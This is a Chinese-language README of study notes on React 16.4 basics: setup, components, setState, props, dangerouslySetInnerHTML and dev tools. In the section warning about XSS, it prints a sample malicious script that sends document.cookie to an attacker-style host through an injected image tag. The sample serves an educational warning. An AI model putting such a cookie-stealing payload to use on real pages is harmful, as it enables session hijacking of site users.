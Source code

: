# React16.4

一.安装

    1.npm install -g create-react-app
    2.create-react-app reactDemo
    

二.文件目录

    1. src/index.js 为入口文件
    
    
三.基础用法

    1. import React ,{ Component , Fragment } from 'react';   /* Fragment为占位符，在页面上不会显示这个元素 */
        class (定义一个组件类) extends Component {
          constructor(props){
            super(props);

            /* 定义状态 */
            this.state = {
              inputValue : "",
              list : []
            }
          }

          render() {
            return (
              <Fragment>
              </Fragment>
            );
          }
        }
      
    2. 事件绑定

         在 constructor 中设置 bind this
         栗子 ： this.handleBtnClick = this.handleBtnClick.bind(this);

    3. react中 类名class要写成className , for 要写成 htmlFor, <label htmlFor="inputArea">请输入内容</label>
    
    4. 设置状态

         用法一 ： 
           this.setState({
            inputValue : ""
           });

         用法二 : 
           this.setState( (preState) => {
            return {
              list : [ ...this.State.list,...this.state.inputValue ],
              inputValue : ""
            };
           });

         用法三 : 
           /* preState 可以代替 this.state */
           this.setState( (preState) => ({
             list : [ ...preState.list,...preState.inputValue ],
             inputValue : "" 
           }))

    5. 父子组件通信
         
         ps ：react采用单项数据流，绝对不可以将父组件的 state 传递给子组件。
         
         假设这是一个子组件 <TodoItem /> , 那么我们可以这样将父组件的数据传给它 : 
            <TodoItem content = {item} /> // TodoItem 组件可以通过 this.props.content 拿到数据
         传递方法 : 
            ps : 一定要 记得 bind(this)
            <TodoItem  testBtn = {this.btnAlert.bind(this)} /> // TodoItem 组件可以通过 this.props.tesBtn() 调用方法
           
            子组件get属性的时候，可以将属性提取出来，结构赋值需要加 {}
            例如 : 
                const { testBtn } = this.props ;
                这样就可以直接使用 testBtn 这个方法了 !!
    
    6. dangerouslySetInnerHTML
         
         ps ：不合时宜的使用 innerHTML 可能会导致 cross-site scripting (XSS) 攻击。 
              净化用户的输入来显示的时候，经常会出现错误，不合适的净化也是导致网页攻击的原因之一。
              dangerouslySetInnerHTML 这个 prop 的命名是故意这么设计的，以此来警告.
              它的 prop 值(一个对象而不是字符串）应该被用来表明净化后的数据。
         
         dangerouslySetInnerHTML = {{__html : this.state.html}}
         
         ps : 恶意脚本 ，获取网页cookie
         <script>
           document.write('<img src=http://www.hackerhome.com/grabber.jsp?msg=' + document.cookie+' width=16 height=16 border=0 />');
         </script>
    
    7.下载React-developer-tools 辅助工具
        https://github.com/facebook/react-devtools 在github上下载 .zip 安装包
        进入到react-devtools-master文件夹，用npm安装依赖 ： npm --registry https://registry.npm.taobao.org install
        安装依赖成功后，我们便可以打包一份扩展程序出来 ： npm run build:extension:chrome 
        项目目录中生成一个新的文件夹，react-devtools -> shells -> chrome -> build -> unpacked文件夹
        打开chrome扩展程序chrome://extensions/ ，加载已解压的扩展程序，选择第3步中的生成的unpacked文件夹
        
         
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
    
      
